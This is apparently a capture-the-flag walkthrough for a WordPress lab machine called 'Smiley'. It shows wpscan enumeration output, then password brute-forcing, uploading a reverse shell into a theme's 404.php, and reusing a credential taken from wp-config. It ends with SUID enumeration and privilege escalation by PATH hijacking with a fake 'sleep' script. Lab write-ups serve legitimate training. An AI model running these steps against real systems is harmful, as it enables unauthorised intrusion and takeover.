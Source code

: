 # Smiley

![alt text](Images/smiley.png)

__MACHINE IP__: 10.1.1.42

__DATE__: 16/05/2019

__START TIME__: 11:30

----

`NMAP`
-----

![alt text](Images/nmap.png)

Let's run `dirsearch` on the website running on port `80`.

`dirsearch`
--------

![alt text](Images/dirsearch.png)

Looking at the results of dirsearch we can see that the website is running wordpress. So let's enumerate with `wpscan`

```bash
➜ wpscan --url http://10.1.1.42/ --enumerate u
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 3.4.5
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]N
[+] URL: http://10.1.1.42/
[+] Started: Thu May 16 23:52:18 2019

Interesting Finding(s):

[+] http://10.1.1.42/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://10.1.1.42/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] http://10.1.1.42/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.1.1.42/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] http://10.1.1.42/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.9 identified (Insecure, released on 2018-12-13).
 | Detected By: Rss Generator (Passive Detection)
 |  - http://10.1.1.42/index.php/feed/, <generator>https://wordpress.org/?v=4.9.9</generator>
 |  - http://10.1.1.42/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.9.9</generator>
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: WordPress 3.9-5.1 - Comment Cross-Site Scripting (XSS)
 |     Fixed in: 4.9.10
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/9230
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9787
 |      - https://github.com/WordPress/WordPress/commit/0292de60ec78c5a44956765189403654fe4d080b
 |      - https://wordpress.org/news/2019/03/wordpress-5-1-1-security-and-maintenance-release/
 |      - https://blog.ripstech.com/2019/wordpress-csrf-to-rce/

[+] WordPress theme in use: twentysixteen
 | Location: http://10.1.1.42/wp-content/themes/twentysixteen/
 | Last Updated: 2019-02-21T00:00:00.000Z
 | Readme: http://10.1.1.42/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 1.9
 | Style URL: http://10.1.1.42/wp-content/themes/twentysixteen/style.css?ver=4.9.9
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead ...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Detected By: Css Style (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Detected By: Style (Passive Detection)
 |  - http://10.1.1.42/wp-content/themes/twentysixteen/style.css?ver=4.9.9, Match: 'Version: 1.4'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:01:01 <=================================================================================================================> (10 / 10) 100.00% Time: 00:01:01

[i] User(s) Identified:

[+] smiley
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Finished: Thu May 16 23:53:29 2019
[+] Requests Done: 50
[+] Cached Requests: 4
[+] Data Sent: 9.467 KB
[+] Data Received: 218.024 KB
[+] Memory used: 1.531 MB
[+] Elapsed time: 00:01:11
```


- Brute force the password - `➜ wpscan --url http://10.1.1.42/ -P /home/mzfr/CTFs/lists/passwords.txt -U smiley`


![alt text](Images/password.png)
![alt text](Images/config.png)


- upload reverse shell - 10.1.1.42/wp-content/themes/twentysixteen/404.php
- python -c 'import pty; pty.spawn("/bin/sh")'
- Since nothing was available  I thought let's look at the WP config
- config to password - Il0veW0rdpress
- su mike Il0veW0rdpress



![alt text](Images/user.png)

- Go to home, get user.txt


- find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

![alt text](Images/SUIDs.png)

![alt text](Images/strings.png)

- make a new `sleep`
  `echo $'#!/bin/sh\n/bin/sh' > sleep`

![alt text](Images/sleep.png)

- now run `./listwww` and we got it


